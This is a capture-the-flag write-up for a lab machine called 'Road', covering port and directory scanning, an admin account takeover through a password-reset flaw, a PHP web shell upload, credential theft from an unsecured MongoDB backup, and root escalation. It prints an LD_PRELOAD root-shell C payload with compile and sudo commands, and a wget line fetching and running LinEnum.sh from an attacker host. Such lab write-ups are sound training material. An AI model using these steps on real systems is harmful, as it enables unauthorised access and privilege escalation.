


# Road - CTF Writeup

## Enumeration
- **nmap -sS -sV -Pn -oN nmap_result.txt 10.10.181.155**
```
# Nmap 7.95 scan initiated Tue May  6 18:35:20 2025 as: /usr/lib/nmap/nmap -sS -sV -Pn -oN nmap_result.txt 10.10.181.155
Nmap scan report for road.thm (10.10.181.155)
Host is up (0.26s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
# Nmap done at Tue May  6 18:35:47 2025 -- 1 IP address (1 host up) scanned in 27.03 seconds
```

- Discover web-content
```bash
dirsearch -u http://road.thm
```
```
# Dirsearch started Tue May  6 17:28:19 2025 as: /usr/lib/python3/dist-packages/dirsearch/dirsearch.py -u http://road.thm/

403   273B   http://road.thm/.ht_wsr.txt
403   273B   http://road.thm/.htaccess.bak1
403   273B   http://road.thm/.htaccess.orig
403   273B   http://road.thm/.htaccess.sample
403   273B   http://road.thm/.htaccess.save
403   273B   http://road.thm/.htaccess_extra
403   273B   http://road.thm/.htaccess_orig
403   273B   http://road.thm/.htaccess_sc
403   273B   http://road.thm/.htaccessBAK
403   273B   http://road.thm/.htaccessOLD
403   273B   http://road.thm/.htaccessOLD2
403   273B   http://road.thm/.htm
403   273B   http://road.thm/.html
403   273B   http://road.thm/.htpasswd_test
403   273B   http://road.thm/.htpasswds
403   273B   http://road.thm/.httr-oauth
403   273B   http://road.thm/.php
301   305B   http://road.thm/assets    -> REDIRECTS TO: http://road.thm/assets/
200   490B   http://road.thm/assets/
301   309B   http://road.thm/phpMyAdmin    -> REDIRECTS TO: http://road.thm/phpMyAdmin/
200     4KB  http://road.thm/phpMyAdmin/
200     4KB  http://road.thm/phpMyAdmin/index.php
403   273B   http://road.thm/server-status/
403   273B   http://road.thm/server-status
301   301B   http://road.thm/v2    -> REDIRECTS TO: http://road.thm/v2/
302    20KB  http://road.thm/v2/    -> REDIRECTS TO: /v2/admin/login.html
```

---

## Application Structure

### Authentication Mechanism

- **Register Page**: `/v2/admin/reg.php`  
  → POST to: `/v2/admin/logincheck.php`  
  → Redirects to: `/v2/admin/login.html`

---

## Application Functions

- `/v2/profile.php` – Displays and allows editing of:
  - `userid`
  - `useremail`
  - `userrole`
  - `profile image`

- `/v2/ResetUser.php` – Password reset functionality  
- Search for: `"Enter AWB/Waybill number"`  
- Wallet Balance  
- Contact Us  

---

## Objective: Remote Code Execution (RCE)

Since most functions were disabled except **file upload** and **ResetUser**, I focused on that.

- After creating an account

- Notice: Only admin has access to this feature. Please drop an email to admin@sky.thm in case of any changes.


Noted the email: **admin@sky.thm**  

Used the **password reset** functionality to perform **account takeover**.


✅ Successfully took over the admin account.


---

## Gained Shell

- Uploaded a file and renamed it to `test.php`


- Uploaded a malicious file **shell.php**


- The path **v2/profileimages/** is used to display uploaded files, request to:
  **v2/profileimages/shell.php**



- Retrieved **user flag** from **/home/webdeveloper**


---

## Privilege Escalation to Root

### 1. Enumerated the system using LinEnum.sh

```bash
cd /tmp
wget http://<your-IP>:<port>/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

- Noticed **mongo** DB running on 127.0.0.1:27017


- Executed **mongo** on the shell, and yes, it was accessible


- Show databases using: `show dbs`


- Backup may contain sensitive data, so I accessed it:
```bash
use backup
show tables
db.collection.find()
```

- Got **webdeveloper** password and used it for SSH login


- SSH login: `ssh webdeveloper@<ip>` and entered the password


- Checked permissions to escalate into root:
```bash
sudo -l
```


- Saw that **env_keep+=LD_PRELOAD** was allowed; can exploit this to get root

- Created `shell.c` with the following code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

- Compiled using:
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

- Executed:
```bash
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
```


**Yes, got root access!**